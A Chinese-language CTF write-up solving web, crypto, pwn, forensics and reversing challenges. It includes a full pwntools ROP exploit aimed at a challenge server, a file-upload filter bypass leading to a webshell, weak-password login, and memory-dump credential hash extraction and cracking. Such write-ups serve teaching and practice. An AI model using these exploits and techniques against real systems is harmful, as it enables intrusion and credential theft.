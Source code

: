 # HXB writeup

## WEB

### 题目名字不重要反正题挺简单的
直接传参file=phpinfo，flag被写到环境变量

![img1](./img/img1.png)

### NewWebsite

扫描目录扫到/admin

![img2](./img/img2.png)

访问后弱密码admin/admin登录

发现有?r=manageinfo页面可以上传文件，但文件名被限制，传php3即可绕过，然后antsword连接

![img3](./img/img3.png)


## CPYPTO

### 古典美++

题目说是维吉尼亚密码，直接爆破密钥即可

![img4](./img/img4.png)


## pwn

### pwn_printf

栈溢出，通过puts泄露函数地址，计算偏移量得到system函数地址来get shell

exp如下：

```python
from pwn import *
context.log_level = 'debug'
p = remote('47.111.104.169',56706)
elf = ELF('./pwn_printf')
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x0000000000401213
pop_rsi_ret = 0x000401211
ret_addr = 0x4007C6
scanf = 0x004006A0

p.recvuntil("interesting")
for i in range(16):
	p.sendline("32")

payload1 = 'a'*0x8 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi_ret) + p64(0x40) + p64(ret_addr)
p.sendline(payload1)
p.recvline()

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print (hex(puts_addr))

payload2 = 'a'*0x8 + p64(pop_rdi_ret) + p64(0x0401D99) +p64(pop_rsi_ret) +p64(0x06030A0)+p64(0)+ p64(scanf) + p64(pop_rdi_ret) + p64(0x20)+ p64(ret_addr+1)
p.recv()
str1 = int(b'/bin'[::-1].encode('hex'),16)
str2 = int(b'/sh\x00'[::-1].encode('hex'),16)

p.sendline(payload2)
sleep(0.5)
p.sendline(str(str2))
sleep(0.5)

payload3 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x0401D99) + p64(pop_rsi_ret) + p64(0x06030A4) + p64(0) + p64(scanf) + p64(ret_addr)
p.send(payload3)
p.sendline(str(n2))

payload4 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x06030A0) + p64(puts_addr-0x2a300)
sleep(0.5)
p.sendline(payload4)
p.interactive()

```

![img5](.\img\pwn.png)

## MISC

### 颜文字之谜

通过流量分析可以导出index-demo.html
在源码中发现颜文字

![img5](.\img\img5.png)

开始以为是颜文字编码，后来发现有base64隐写，用stegsnow可以输出flag样式

base64隐写脚本
```
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('C:/Users/kai/Desktop/base.txt', 'rb') as f:
    bin_str = ''
    for line in f.readlines():
        stegb64 = ''.join(line.split())
        rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
        offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        equalnum = stegb64.count('=') #no equalnum no offset
        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)
        print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
```

结果是key:"lorrie"

输出内容猜测是摩斯密码，解码后得到flag


### passwd

是一道内存取证题

```
python vol.py -f ./my_mem/passwd.raw --profile=Win7SP1x86_23418 hashdump
```

> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> CTF:1000:aad3b435b51404eeaad3b435b51404ee:0a640404b5c386ab12092587fe19cd02:::

CTF密码解码出来是qwer1234，然后MD5就是flag

### 虚实之间

明文攻击，爆出压缩包密码
```123%asd!O```
然后栅栏密码解码得到flag

### 隐藏的秘密

用diskgenius打开可以看到

![img6](.\img\img6.png)


```
volatility -f 1.vmem --profile=Win2003SP1x86 --profile=系统版本 printkey -K "SAM\Domains\Account\Users\Names"
```

于是导出用户名和密码，批量解MD5，最后尝试密码为```NIAIWOMA```的账户和密码MD5
是flag


## RE

### easy_c++

简单异或直接脚本跑
```
a="7d21e<e3<:3;9;ji t r#w\"$*{*+*$|,"
b=""
for i in range(len(a)):
    b+=chr(ord(a[i])^i)
print(b)
```

### easyre

动态调试，一位一位爆出来

### ReMe

```
import hashlib

list = [
 'e5438e78ec1de10a2693f9cffb930d23',
 '08e8e8855af8ea652df54845d21b9d67',
 'a905095f0d801abd5865d649a646b397',
 'bac8510b0902185146c838cdf8ead8e0',
 'f26f009a6dc171e0ca7a4a770fecd326',
 'cffd0b9d37e7187483dc8dd19f4a8fa8',
 '4cb467175ab6763a9867b9ed694a2780',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'cffd0b9d37e7187483dc8dd19f4a8fa8',
 'fd311e9877c3db59027597352999e91f',
 '49733de19d912d4ad559736b1ae418a7',
 '7fb523b42413495cc4e610456d1f1c84',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'acb465dc618e6754de2193bf0410aafe',
 'bc52c927138231e29e0b05419e741902',
 '515b7eceeb8f22b53575afec4123e878',
 '451660d67c64da6de6fadc66079e1d8a',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'fe86104ce1853cb140b7ec0412d93837',
 'acb465dc618e6754de2193bf0410aafe',
 'c2bab7ea31577b955e2c2cac680fb2f4',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'f077b3a47c09b44d7077877a5aff3699',
 '620741f57e7fafe43216d6aa51666f1d',
 '9e3b206e50925792c3234036de6a25ab',
 '49733de19d912d4ad559736b1ae418a7',
 '874992ac91866ce1430687aa9f7121fc'
 ]

def decode(n):
    result = []
    while n != 1:
        if n%2:
            n=n*3+1
        else:
            n=n//2
        result.append(n)
    return result

if __name__ == "__main__":
    for i in range(33,128):
        result = decode(i)
        string = ''
        for x in range(len(result)):
            string += str(result[x])
            string += str(result[(len(result) - x - 1)])
        md5 = hashlib.md5()
        md5.update(string.encode())
        md5 = md5.hexdigest()
        for line in range(27):
            if md5 == list[line]:
                print line,'->',chr(i)
```
然后按顺序排序MD5即可

